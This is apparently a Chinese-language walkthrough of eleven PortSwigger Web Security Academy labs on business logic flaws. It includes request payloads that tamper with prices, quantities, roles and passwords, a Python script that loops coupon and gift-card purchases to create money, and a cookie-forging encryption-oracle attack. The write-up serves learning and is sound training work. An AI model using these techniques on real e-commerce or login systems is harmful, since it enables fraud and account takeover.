






# Business logic vulnerabilities

[TOC]

## 1. Excessive trust in client-side controls

这个实验室没有充分验证用户的输入。你可以利用其采购工作流程中的逻辑缺陷，以一个意想不到的价格购买物品。

可以看到，当加入购物车的时候，POST请求里面有价格。

尝试更改价格，发现在购物车里面已经更改了价格。

购买成功。

## 2. High-level logic vulnerability

当添加负数个商品的时候是可以成功的，但是提交的时候说总价不能为负。

那我们再添加一些正的商品试试。

最后`1个序号1，-450个序号2`的商品就好了。

## 3. Low-level logic flaw

经过爆破，发现每次添加的个数不能超过100。

测了半天，啥也没发现。

去看了一下官方解析，他这个使数量不断添加，价格溢出为负数。我惊了。

然后后面用ID=1和ID=2的去凑一凑，凑出来了。

## 4. Inconsistent handling of exceptional input

我们可以收到所有来自`@acfe1f591ffd1db7806340a201540039.web-security-academy.net`及其子域的邮件。

然后看了一下答案，发现访问`/admin`的时候检查邮件最长是255位，多了会截断。

但是申请的时候并没有做截断。

```
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa@dontwannacry.com.acfe1f591ffd1db7806340a201540039.web-security-academy.net
```

然后用这个去申请账号就可以了。

## 5. Inconsistent security controls

这题目随便注册一个账号，然后进去之后改变邮箱。

改成`xxx@dontwannacry.com`就可以了。

## 6. Weak isolation on dual-use endpoint

```
csrf=3sMllK5NAr3HLekJRmB3m2cF9lkvI9qe&username=administrator&new-password-1=aa&new-password-2=aa
```

将用户名改了，然后不要原密码，，就能直接改密码了。

## 7. Insufficient workflow validation

我们完整的走一个流程，发现购买成功的时候会发送一个GET请求，路径是`/cart/order-confirmation?order-confirmed=true`。

然后我们在购物车里添加夹克，直接访问这个网址，发现购买成功。

## 8. Authentication bypass via flawed state machine

要进入`/admin`页面需要管理员权限。但是提供的账号没有管理员权限。

推测在POST请求的`/role-selector`可以用admin登陆。

我尝试将`role=user`改成`role=admin`和`role=administrator`都不行。

改成`role=`或者删除参数也都不行。

看了一下解析，不进行GET 请求`/role-selector`直接访问`/`就是管理员权限。

## 9. Flawed enforcement of business rules

一进去就看见了这个提示`New customers use code at checkout: NEWCUST5`。

我在想我能不能用。用了，然后呢？

去看了一眼解析，居然首页最下面输入邮箱还会有一个折扣。`Use coupon SIGNUP30 at checkout!`

然后又用了这个折扣券。但是这个折扣券用了也和前面那个一样。

不能爆破后面的数字，也不能重复使用。

受不了了去看了一下答案，**交替使用**？？？？？

这是什么离谱的漏洞。我脑洞还是不够用。

## 10. Infinite money logic flaw

我发现改一次邮箱就可以在首页下面白嫖一次优惠券。

但是获得的优惠券都长一个样，不能重复添加。

感觉应该找个方法白嫖`Gift cards`，应该可以加钱。

然后发现首页上面可以买这个，买了之后得到一个CODE: `sEQq7GKK6q`。

emmm，我花七块（优惠券打折）买的`Gift cards`，输进去加了10块。

经过我的尝试，那个`SIGNUP30`的优惠券不需要改邮箱重新获得，可以一直用。

那么每一轮下来应该可以赚三块钱。

1. 添加card到购物车
2. 添加优惠券
3. 购买
4. 输入code

按照这个逻辑去编写python脚本。

```python
import requests
import re

if __name__ == '__main__':
    url = 'https://ac121f421e849e7480f2059b00b7002d.web-security-academy.net'
    cookie = {'session': 'HP8aliPkLUF8AZnd6spPM4Gur4HvuhjG'}
    for i in range(1000):
        # 添加card到购物车
        body1 = {'productId': 2, 'quantity': 1, 'redir': 'CART'}
        re1 = requests.post(url + '/cart', body1, cookies=cookie)
        # 添加优惠券
        pattern = r'<input required type="hidden" name="csrf" value="(.*)">'
        token = re.compile(pattern).findall(re1.text)[0]
        body = {'csrf': token, 'coupon': 'SIGNUP30'}
        re2 = requests.post(url + "/cart/coupon", body, cookies=cookie)
        # 购买
        token = re.compile(pattern).findall(re2.text)[0]
        body = {'csrf': token}
        re3 = requests.post(url + "/cart/checkout", body, cookies=cookie)
        # GET account页面
        re4 = requests.get(url + "/my-account", cookies=cookie)
        # 输入 card CODE
        token = re.compile(pattern).findall(re4.text)[0]
        pattern_code = r'''<tr>
                                <th>Code</th>
                            </tr>
                            <tr>
                                <td>(.*)</td>
                            </tr>'''
        gift_code = re.compile(pattern_code).findall(re3.text)[0]
        body = {'csrf': token, 'gift-card': gift_code}
        re5 = requests.post(url + "/gift-card", body, cookies=cookie)

        print(i, "is ok")
        
```

钱跑够了就可以买了。

## 11. Authentication bypass via encryption oracle

保持登陆选项勾上之后，cookie加上了这个

`stay-logged-in=UBPOTjw2SvNG%2fvujATFj8djDkK2TLs%2bLuOzJN7c84aI%3d`。

`UBPOTjw2SvNG/vujATFj8djDkK2TLs+LuOzJN7c84aI=`

当在评论区输入不合格的邮箱时，会被添加cookie

`notification=ltdjgStwAC6Duo4jDe9NuZPswvgVlMTLb20XR3Xl2IE%3d`。

这个cookie和那个错误的email是相关的，不同的email会产生不同的cookie。

当把`stay-logged-in`的值放入`notification`之后，会返回`wiener:1618652307992`。

说明这两个的加解密是一个东西。而且这个冒号后面的东西看起来像一个时间戳，或者其他啥的标记。

那如果我将`administrator:1618652307992`加密了之后放到`stay-logged-in`应该也能登陆进去。

但是如果用email那个地方加密的话，会多出这些字符：`Invalid email address:%20`

尝试将`administrator:1618652307992`放入email，出来的结果是：

`notification=ltdjgStwAC6Duo4jDe9NubVA0md%2bwbpUZnV2wG1qWMsm9RgvVr3%2f7sMzVugKhWbNhLFmFM35Gqixy5jw9FF9Cg%3d%3d`

然而我不知道如何从密文里面删除`Invalid email address:%20`。

但是我从报错里面看出来这个字节数必须是16的整数，应该是块加密。

而且我经过url解密，base64解密之后通过Hex形式查看，发现字节数是16的倍数。

而且通过

`ltdjgStwAC6Duo4jDe9NubVA0md%2bwbpUZnV2wG1qWMsm9RgvVr3%2f7sMzVugKhWbNhLFmFM35Gqixy5jw9FF9Cg%3d%3d`密文



和这个

`ltdjgStwAC6Duo4jDe9NuZPswvgVlMTLb20XR3Xl2IE%3d`密文



前面16位（第0行）是一样的，而前缀有23位那么我们填补9位（16*x-23, x>=2,这里取x=2）进去，就能把前缀的部分和`administrator:1618652307992`分开。

（梳理逻辑的时候，网站过期了，重开了一个，时间戳变了）

尝试使用`000000000administrator:1618655951778`和`000000000aaaaaa`去对比一下，前2行是不是一样的。

第一个密文是`VELztY5KXLJtZHhwxbAMwzBsVZdahEQGOxa2bmJ8DQe6VvTJwS%2f7%2fDPVULkIF%2fCXCygoz6w2I9AsAabngfpVWg%3d%3d`



第二个密文是`VELztY5KXLJtZHhwxbAMwzBsVZdahEQGOxa2bmJ8DQel%2fZRSlyYenlw6XphknQ1S`



发现前两行确实一模一样。

那这个`Invalid email address: 000000000administrator:1618655951778`明文对应的密文解密之后，删除前32字节，剩下的就应该是`administrator:1618655951778`对应的密文了。



然后再重新base64编码



然后url编码之后，放到`stay-logged-in`里面，应该可以登陆administrator账户了。

GET请求`/my-account?id=administrator`，更改`stay-logged-in`，记得删除`session`。

